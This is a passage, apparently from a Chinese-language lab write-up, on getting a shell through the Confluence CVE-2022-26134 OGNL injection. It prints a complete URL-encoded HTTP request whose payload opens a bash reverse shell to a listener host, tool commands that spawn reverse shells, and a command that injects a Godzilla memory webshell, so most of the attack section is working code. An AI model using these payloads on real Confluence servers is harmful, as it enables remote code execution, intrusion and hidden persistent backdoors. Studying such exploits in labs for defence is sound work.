 ### 4、getshell
#### 1）手工
```
GET /%24%7BClass.forName(%22com.opensymphony.webwork.ServletActionContext%22).getMethod(%22getResponse%22,null).invoke(null,null).setHeader(%22ok%22,Class.forName(%22javax.script.ScriptEngineManager%22).newInstance().getEngineByName(%22nashorn%22).eval(%22new%20java.lang.ProcessBuilder().command('bash','-c','bash%20-i%20%3E&%20/dev/tcp/192.168.50.53/6666%200%3E&1').start()%22))%7D/ HTTP/1.1
Host: 192.168.50.227:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Length: 0


```
🚩 这里的正斜杠不能再URL编码了，原因：服务端自动URL解码的时候，不会去解码正斜杠。而P神在 `Confluence 7.18.0` 构造的payload可以全部url编码是因为，它多了一层`String.fromCharCode`

![image](https://user-images.githubusercontent.com/84888757/172955540-b6bd22ed-a1a5-442d-ac96-4a52da936d14.png)

#### 2）工具反弹shell -  through_the_wire.py
- 🔗 https://github.com/jbaines-r7/through_the_wire

```
python3 through_the_wire.py --rhost 192.168.50.227 --rport 8090 --lhost 192.168.50.53 --protocol http:// --reverse-shell
```

![image](https://user-images.githubusercontent.com/84888757/172955662-9db239be-2718-4276-98c6-8d43b50349f0.png)

#### 3）工具反弹shell - cmd_reverse.py
- 🔗 [cmd_reverse.py来源](https://mp.weixin.qq.com/s?__biz=MzI2Mjc5NjQ0OA==&mid=2247484931&idx=1&sn=7e0ba8b91cf19196c192e3d8007baf70)

```
python3 cmd_reverse.py -u http://192.168.50.227:8090/ -i 攻击方ip -p 4321
```

![image](https://user-images.githubusercontent.com/84888757/172955883-e869b6ad-3a14-44fa-950c-b2d7aff8e781.png)

### 5、内存马
- 🔗 https://github.com/BeichenDream/CVE-2022-26134-Godzilla-MEMSHELL

```
java -jar CVE-2022-26134.jar http://192.168.50.227:8090/ 哥斯拉密码 哥斯拉密钥
```

![image](https://user-images.githubusercontent.com/84888757/172956037-42c4f130-66db-41ac-9597-1b352866a4be.png)

如果内存Shell已经注入成功但哥斯拉无法连接,请在请求配置添加以下协议头或者为哥斯拉配置Burp代理
